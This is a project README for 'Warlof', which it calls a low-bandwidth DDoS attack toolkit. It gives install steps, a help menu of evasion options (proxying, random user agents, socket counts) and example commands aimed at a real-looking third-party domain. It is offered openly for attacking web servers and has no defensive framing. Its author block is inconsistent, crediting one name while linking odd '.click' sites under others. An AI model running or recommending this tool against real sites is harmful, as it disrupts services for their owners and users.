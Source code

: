 <h1 align="center">
  <br>
  <a  href="https://github.com/thenurhabib/warlof"><img src="./img/logo.png" width="220px" border="2px" ></a>
  <br>
  Warlof
  <br>
</h1>

<h4 align="center">Low Bandwidth Distributed Denial-of-service attack ToolKit.</h4>

<br>

<p align="center">
  <a href="https://github.com/thenurhabib/warlof/releases">
    <img src="https://img.shields.io/github/release/thenurhabib/warlof.svg">
  </a>
  <a href="https://travis-ci.com/thenurhabib/warlof">
    <img src="https://img.shields.io/travis/com/thenurhabib/warlof.svg">
  </a>
  <a href="https://github.com/thenurhabib/warlof/issues?q=is%3Aissue+is%3Aclosed">
      <img src="https://img.shields.io/github/issues-closed-raw/thenurhabib/warlof.svg">
  </a>
</p>

<br>

![multiple](./img/ss1.png)

<hr>

### Warlof is a Low Bandwidth Distributed Denial-of-service attack (DDoS) Toolkit. You can use it to attack on a web server with multiple sockets. You can customize how many requests you wanna send.

<br>

### Main Features
- DDoS Attack
- Send request in HTTPS also.
- Advance Error Handeling.
- Customize request numbers.
- Multiprocessing support

<br>

### Documentation
### install
```yaml
git clone https://github.com/thenurhabib/warlof.git
cd warlof
bash setup.sh
python3 warlof.py --help
```


#### Usage

```yaml
┌──(habib㉿kali)-[~/Desktop/warlof]
└─$ python3 warlof.py -h                  

             __       __                                                                                                
            (, )  |  /         /)    /)                                                                                 
               | /| / _   __  // ___//                                                                                  
               |/ |/ (_(_/ (_(/_(_)/(_                                                                                  
               /  |               /)                                                                                    
                                 (/                                                                                     
              @thenurhabib                                                                                              
                                                                                                                        
~ Low Bandwidth Denial-of-service attack (DDOS) Toolkit ~                                                               
    
usage: ⏬⏬

Warlof  - Help Menu

positional arguments:
  host                  - Domain Name or IP Address.
                                                                                                                        
optional arguments:                                                                                                     
  -h, --help            show this help message and exit                                                                 
  -p PORT, --port PORT  Domain/IP Port Number                                                                           
  -s SOCKETS, --sockets SOCKETS                                                                                         
                        Number of Requests.                                                                             
  -v, --verbose         Show attack details in terminal.                                                                
  -x, --useproxy        Use SOCKS5 proxy for connecting.                                                                
  --proxy-host PROXY_HOST                                                                                               
                        SOCKS5 proxy host.                                                                              
  --proxy-port PROXY_PORT                                                                                               
                        SOCKS5 proxy port                                                                               
  --https               Use HTTPS for the requests.                                                                     
  -ua, --randuseragents                                                                                                 
                        Randomizes user-agents with requests.                                                           
  --sleeptime SLEEPTIME                                                                                                 
                        Sleep time for every request..                                                                  
                                                                                                                                                     
```
<br>

### Example
```bash 
python warlof.py myphamthanhvan.com -p 443 -v
python3 warlof.py myphamthanhvan.com -p 443 -v
```


<br>


### Author
```yaml
Name       : vanmanhgaming
Medium     : https://httpsvpsvanmanhgaming.click
Telegram    : https://t.me/Vpsvanmanhgaming
HackerRank : https://httpsvpsvanmanhgaming.click

```

##### Thank You.
